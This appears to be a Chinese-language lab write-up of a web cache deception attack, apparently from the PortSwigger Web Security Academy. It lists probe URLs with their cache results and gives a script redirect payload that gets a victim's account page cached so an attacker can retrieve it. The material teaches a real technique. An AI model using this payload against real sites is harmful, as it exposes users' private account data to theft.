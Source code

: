将目标的敏感信息缓存到 URL 中.

为方便演示, 将结果: `敏感信息,X-Cache` 以数字 `0` 和 `1` 组合演示;
不存在的信息用 `0` 表示, 存在的信息用 `1` 表示

## 1. PoC

1. 访问 https://example.com/my-account 1,0
2. 访问 https://example.com/my-accounttest 0,0
3. 访问 https://example.com/my-account/test 1,0
   (在这一步测试可用的分隔符)
4. 访问 https://example.com/my-account/test.js 1,1
   (后缀可能是: `.js` , `.css` , `.ico` , `.exe`)
5.  `Cache-Control: max-age=30` 则在 30 秒内重新发送请求
   响应中的 `X-Cache: miss` 变为 `X-Cache: hit` 

## 2. Exploit

1. 制作一个网站诱导目标访问

   ```
   <script>document.location="https://YOUR-LAB-ID.web-security-academy.net/my-account/wcd.js"</script>
   ```

2. 访问后会缓存目标的敏感信息

   ```
   https://YOUR-LAB-ID.web-security-academy.net/my-account/wcd.js
   ```

3. 此时攻击者在 30 秒内从隐私浏览器中访问 URL 即可得到目标的敏感信息

---

References

- [Web cache deception](https://portswigger.net/web-security/web-cache-deception)


